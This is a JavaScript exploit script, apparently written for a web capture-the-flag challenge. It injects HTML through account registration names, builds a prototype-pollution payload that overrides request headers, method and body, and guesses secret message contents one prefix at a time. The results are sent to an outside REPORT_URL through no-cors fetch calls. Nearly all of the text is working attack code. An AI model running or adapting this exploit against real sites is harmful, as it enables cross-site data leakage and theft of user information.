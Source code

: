 ```html

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

const loadState = () => {
    const hash = location.hash.slice(1) || '{}';
    const state = JSON.parse(decodeURIComponent(hash));

    if (typeof state.prefix === 'undefined') {
        state.prefix = '{';
    }
    if (typeof state.index === 'undefined') {
        state.index = 0;
    }

    return state;
};

const saveState = (state) => {
    location.hash = encodeURIComponent(JSON.stringify(state));
    location.reload();
};

const report = value => {
    const data = encodeURIComponent(JSON.stringify(value));
    const url = `${REPORT_URL}?report=${data}`;

    return fetch(url, {
        method: 'GET',
        mode: 'no-cors',
    }).catch(() => { });
};

const register = credentials => {
    const url = `${EXCESS_URL}/api/register`;

    return fetch(url, {
        method: 'POST',
        body: credentials,
        mode: 'cors',
    }).then(x => true).catch(x => false);
};

const constructCredentials = prefix => {
    const random = Math.random().toString();

    const html = (
        `<object data='/api/messages?content=${prefix}'>` +
            `<img src='/api/message/${random}%ff' loading='lazy'>` +
        `</object>`
    );

    return `name=${html}&password=x`;
};

const constructPollution = credentials => {
    const pollution = [
        ['__proto__', 'headers', [['Range', 'bytes=17-']]],
        ['__proto__', 'method', 'POST'],
        ['__proto__', 'body', credentials],
    ];

    return JSON.stringify(pollution);
};
```